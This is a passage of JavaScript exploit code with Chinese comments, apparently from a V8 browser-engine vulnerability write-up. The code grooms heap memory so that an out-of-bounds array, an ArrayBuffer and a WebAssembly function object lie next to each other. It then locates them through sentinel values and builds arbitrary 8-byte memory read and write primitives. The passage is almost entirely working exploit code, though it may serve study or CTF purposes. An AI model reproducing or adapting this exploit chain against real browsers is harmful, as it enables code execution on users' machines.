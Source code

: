     /******* -- 布置内存（使 oob_array、array_buffer 以及 WasmJSFunctionObj 相邻） -- *******/
    // 注意必须在执行完turboFan后开始布置

    var array_buffer;
    array_buffer = new ArrayBuffer(0x233);
    data_view = new DataView(array_buffer);
    backing_store_offset = -1;

    // C++ 代码 `void func() `{``}`` 的 wasm 二进制代码
    var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 132, 128, 128, 128,
        0, 1, 96, 0, 0, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5,
        131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2,
        6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 102, 117, 110, 99, 0, 0, 10, 136, 128, 128, 128,
        0, 1, 130, 128, 128, 128, 0, 0, 11]);
    var m = new WebAssembly.Instance(new WebAssembly.Module(wasmCode), `{``}`);
    var WasmJSFunction = m.exports.func;
    // 将WasmJSFunction 布置到与 oob_arr 数组相同的内存段上
    // 这里写入了一个哨兵值0x233333，用于查找 WasmJSFunction 地址
    var WasmJSFunctionObj = `{` guard: Int64ToFloat64(0x233333), wasmAddr: WasmJSFunction `}`;
    var WasmJSFunctionIndex = -1;

    /******* -- 任意地址读写原语 -- *******/

    // 确定backing_store_offset 以及 WasmJSFunctionIndex
    // 只用一个for循环，只遍历一次
    for (let i = 0; i &lt; 0x4000; i++) `{`
        let val = Float64ToInt64(oob_arr[i]);
        // 开始查找哨兵值
        // 在查找array_buffer的backing_store时，注意DataView在Array_buffer高地址处
        // 查找哨兵值时有可能会查找到错误的位置，因此这里只取查找到的第一个地方
        if (backing_store_offset == -1 &amp;&amp; val == 0x0000023300000000) `{`
            backing_store_offset = i + 1;
            console.log("[+] find backing_store offset: " + backing_store_offset);
        `}`
        else if (WasmJSFunctionIndex == -1 &amp;&amp; val == 0x233333) `{`
            WasmJSFunctionIndex = i + 1;
            console.log("[+] find WasmJSFunctionAddr offset: " + WasmJSFunctionIndex);
        `}`
        // 如果都找到了就不用再找，以免碰上SIGMAP
        if (backing_store_offset != -1 &amp;&amp; WasmJSFunctionIndex != -1)
            break;
    `}`
    // 简单确认一下是否成功找到 backing_store
    if (backing_store_offset == -1)
        throw "backing_store is not found!";
    // 简单确认一下是否成功找到 WasmJSFunctionAddr
    else if (WasmJSFunctionIndex == -1)
        throw "WasmJSFunctionAddr is not found!";

    function read_8bytes(addr) `{`
        oob_arr[backing_store_offset] = Int64ToFloat64(addr);
        return data_view.getBigInt64(0, true);
    `}`
    function write_8bytes(addr, data) `{`
        oob_arr[backing_store_offset] = Int64ToFloat64(addr);
        data_view.setBigInt64(0, BigInt(data), true);
    `}`
